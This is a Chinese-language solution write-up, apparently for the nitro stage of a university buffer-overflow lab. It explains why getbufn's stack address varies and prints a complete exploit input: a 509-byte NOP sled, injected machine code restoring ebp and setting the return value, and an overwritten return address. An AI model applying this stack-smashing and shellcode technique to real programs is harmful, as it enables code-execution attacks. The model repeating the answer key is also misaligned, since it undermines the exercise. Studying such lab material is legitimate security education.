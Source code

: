 构造`getbufn`的输入字符串中应包含如下指令：

```asm
movl 0x0804c220, %eax
lea 0x28(%esp), %ebp # resotre ebp
push $0x8048e15
ret
```

然而，`nitro`模式下`getbufn`的栈帧并不是固定的，意味着不能用一个确定的值来表示每次执行`getbufn`时`buf`的地址。因而也就无法像`boom`中，直接通过使用`buf`的地址来覆盖返回地址，以实现执行构造的指令。

通过`gdb`调试，发现五次调用`getbufn`时，`buf`对应的值分别如下表所示，且每次运行时不变化。

|1|2|3|4|5|
|-|-|-|-|-|
|`0x55683668`| `0x55683688` | `0x55683698` | `0x556836b8` | `0x55683608` |

不妨令返回地址为最高的`0x556836b8`，令其余字节填充为汇编指令`nop`。当`buf`偏移地址低于`0x556836b8`时，总能执行`nop`，并重复执行直至执行上述的构造指令。

最终构造的输入如下：

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90-
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90          
/* 509 nop in total */

a1 20 c2 04 08       	/* mov    0x804c220,%eax */
8d 6c 24 28          	/* lea    0x28(%esp),%ebp */
68 15 8e 04 08       	/* push   $0x8048e15 */
c3                   	/* ret    */
b8 36 68 55           /* highest return addr */
```
